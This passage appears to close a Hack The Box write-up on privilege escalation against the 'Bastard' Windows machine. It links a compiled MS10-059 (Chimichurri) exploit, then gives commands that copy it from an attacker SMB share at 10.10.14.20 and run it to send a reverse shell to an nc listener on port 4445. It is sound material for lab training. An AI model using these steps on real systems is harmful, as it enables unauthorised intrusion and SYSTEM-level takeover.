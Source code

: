 The scan results show three non-metasploit vulnerabilities.

I googled the MS11-011 exploit but seems a Windows XP exploit, so I tried the MS10-059.

![Untitled](/HTB/bastard-5.png)

### MS10-059

I found a github repo [Chimichurri.exe](https://github.com/egre55/windows-kernel-exploits/blob/master/MS10-059%3A%20Chimichurri/Compiled/Chimichurri.exe) with a compiled binary of the MS10-059 exploit.

Only rests, send the exploit (I send it with [smbserver.py](http://smbserver.py) in the file directory).

In order to send the file without problems, I created a directory on `C:\Windows\Temp` called PrivEsc.

```powershell
cd C:\Windows\Temp
mkdir PrivEsc
cd PrivEsc
copy \\10.10.14.20\smbFolder\Chimichurri.exe .
```

Once send it, let’s run it and set a nc listener and see the magic happens.

```powershell
.\Chimichurri.exe 10.10.14.20 4445
```

```bash
nc -lv 4445
```

![Untitled](/HTB/bastard-6.png)

Other machine down

![Untitled](/HTB/bastard-7.png)

**Thank you for reading, and happy hacking! 😄**

